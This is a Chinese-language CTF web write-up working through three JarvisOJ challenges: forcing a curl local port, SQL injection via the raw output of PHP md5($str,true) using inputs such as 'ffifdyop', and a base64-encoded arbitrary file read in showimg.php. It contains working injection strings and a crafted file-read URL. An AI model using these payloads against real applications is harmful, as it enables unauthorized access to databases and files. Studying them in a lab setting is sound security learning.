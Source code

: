 # 对CTF-Web的记录与总结 #

### 使用本地的某个端口号对网址进行访问 ###

[例题:JarvisOJ PORT51](http://web.jarvisoj.com:32770/)

curl 参数 --local-port RANGE  强制使用的本地端口号

***payload***
`curl --local-port 51 http://web.jarvisoj.com:32770/`

(在做题的时候貌似出了问题 没有回显)

### php中md5($str,true)注入 ###

[例题:JarvisOJ Login](http://web.jarvisoj.com:32772/)

```
Hint: "select * from `admin` where password='".md5($pass,true)."'"
```

关键在于md5函数的第二个参数为true

- TRUE - 原始 16 字符二进制格式
- FALSE - 默认 32 字符十六进制数

例如输入为: `asdf` 时

得到md5为 `912ec803b2ce49e4a541068d495ab570` 这是false的情况

得到的16字符为 `.È²ÎIä¥AIZµp` 这是true的情况

当转换出的字符能够进行sql注入时即可提取flag

当输入为`129581926211651571912466741651878684928`或`ffifdyop`均能得到flag

```
129581926211651571912466741651878684928
md5: 06da5430449f8f6f23dfc1276f722738
ascii: ÚT0Do#ßÁ'or'8
```

```
ffifdyop
md5: 276f722736c95d99e921722cf9ed621c
ascii: 'or'6É]é!r,ùíb
```

### 神盾局的秘密 ###

[例题:JarvisOJ 神盾局的秘密](http://web.jarvisoj.com:32768/)

`<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>`

显然存在文件读取漏洞，并且文件名进行了base64加密

尝试对showimg.php进行读取，构造payload

`view-source:http://web.jarvisoj.com:32768/showimg.php?img=c2hvd2ltZy5waHA=`

得到空白页面，查看源代码

```
<?php
	$f = $_GET['img'];
	if (!empty($f)) {
		$f = base64_decode($f);
		if (stripos($f,'..')===FALSE && stripos($f,'/')===FALSE && stripos($f,'\\')===FALSE
		&& stripos($f,'pctf')===FALSE) {
			readfile($f);
		} else {
			echo "File not found!";
		}
	}
?>
```
